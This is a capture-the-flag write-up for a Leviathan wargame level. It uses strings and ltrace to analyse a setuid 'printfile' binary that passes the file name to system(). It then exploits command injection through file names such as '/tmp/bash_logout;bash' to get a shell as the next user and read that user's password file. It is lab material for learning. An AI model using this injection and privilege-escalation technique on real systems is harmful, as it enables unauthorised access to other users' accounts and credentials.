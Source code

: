 ## Leviathan 2-3
Category: `binary`

## Description
There is no information for this level, intentionally.

## Analysis
```
leviathan2@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan2@leviathan:~$ file printfile 
printfile: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=46891a094764828605a00c0c38abfccbe4b46548, not stripped
```
As always with binary `strings and trace until it is done'
```
leviathan2@leviathan:~$ strings printfile
...
[^_]
*** File Printer ***
Usage: %s filename
You cant have that file...
/bin/cat %s
;*2$"
...
```
As we can see this binary executes `/bin/cat` with given arguments, let's try some arguments 
```
leviathan2@leviathan:~$ ltrace ./printfile .bash_logout
__libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>
access(".bash_logout", 4)                                                                                                                        = 0
snprintf("/bin/cat .bash_logout", 511, "/bin/cat %s", ".bash_logout")                                                                            = 21
geteuid()                                                                                                                                        = 12002
geteuid()                                                                                                                                        = 12002
setreuid(12002, 12002)                                                                                                                           = 0
system("/bin/cat .bash_logout"# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                           = 0
+++ exited (status 0) +++

leviathan2@leviathan:~$ ltrace ./printfile
__libc_start_main(0x804852b, 1, 0xffffd784, 0x8048610 <unfinished ...>
puts("*** File Printer ***"*** File Printer ***
)                                                                                                                     = 21
printf("Usage: %s filename\n", "./printfile"Usage: ./printfile filename
)                                                                                                    = 28
+++ exited (status 255) +++

leviathan2@leviathan:~$ ltrace ./printfile ddd
__libc_start_main(0x804852b, 2, 0xffffd784, 0x8048610 <unfinished ...>
access("ddd", 4)                                                                                                        = -1
puts("You cant have that file..."You cant have that file...
)                                                                                      = 27
+++ exited (status 1) +++
```
Tried executing a binary with an existing file; no argument; no existing file. Summarizing the information we get, we must provide an existing file to execute `/bin/cat %s`, otherwise nothing will happen. Suppose we need to provide special arguments to execute what we want, i.e. command injection
> Command Injection (theory) - https://owasp.org/www-community/attacks/Command_Injection

> Command Injection (examples) - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/df7172dca1c6ee08fdc110045ea653b087ecb971/Command%20Injection/README.md

I spent a lot of time here
```
leviathan2@leviathan:~$ ltrace ./printfile .bash_logout `whoami` 	# nothing
leviathan2@leviathan:~$ ltrace ./printfile .bash_logout $(whoami) 	# nothing
leviathan2@leviathan:~$ ltrace ./printfile ".bash_logout;whoami"
You cant have that file...
```
After 2 hours of trying, I realized that "the binary checks to see if the file exists, what if I inser chain of commands in the name of the file"
```
leviathan2@leviathan:~$ touch "/tmp/bash_logout;whoami"
leviathan2@leviathan:~$ ./printfile $_		# variable $_ inserts last argument
/bin/cat: /tmp/bash_logout: No such file or directory
leviathan3
```
THIS WORKS! Now we need to call shell and read file with password from leviathan3
```
leviathan2@leviathan:~$ touch "/tmp/bash_logout;bash"
leviathan2@leviathan:~$ ./printfile $_
/bin/cat: /tmp/bash_logout: No such file or directory
leviathan3@leviathan:~$ cat /etc/leviathan_pass/leviathan3
leviathan3_password
```

